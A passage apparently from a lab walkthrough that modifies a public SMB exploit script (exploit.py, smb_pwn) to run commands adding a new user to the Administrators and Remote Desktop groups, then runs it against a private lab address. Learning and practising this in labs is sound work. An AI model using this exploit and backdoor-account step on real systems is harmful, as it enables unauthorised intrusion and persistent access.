 ```
service apache2 start
```

## Step 5: Modify the Code

Back in **exploit.py**, find the section of code near the bottom that looks like this:

```
def smb_pwn(conn, arch):
        smbConn = conn.get_smbconnection()

        print('creating file c:\\pwned.txt on the target')
        tid2 = smbConn.connectTree('C$')
        fid2 = smbConn.createFile(tid2, '/pwned.txt')
        smbConn.closeFile(tid2, fid2)
        smbConn.disconnectTree(tid2)

        #smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
        #service_exec(conn, r'cmd /c copy c:\pwned.txt c:\pwned_exec.txt')
        # Note: there are many methods to get shell over SMB admin session
        # a simple method to get shell (but easily to be detected by AV) is
        # executing binary generated by "msfvenom -f exe-service ..."

def smb_send_file(smbConn, localSrc, remoteDrive, remotePath):
        with open(localSrc, 'rb') as fp:
                smbConn.putFile(remoteDrive + '$', remotePath, fp.read)
```

First, uncomment the function and replace everything after **cmd /c** with the following commands:

These commands will add a new user, add him to the Admin group and Remote Desktop users group

![Adding commands to the exploit to blindly add a user to Admin Group and to Remote Desktop Users](<../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png>)

Now, all we have left to do now is run the exploit and then connect to the box through RDP

## Step 6: Run the Finished Exploit

```
python exploit.py 10.10.0.100 netlogon
```
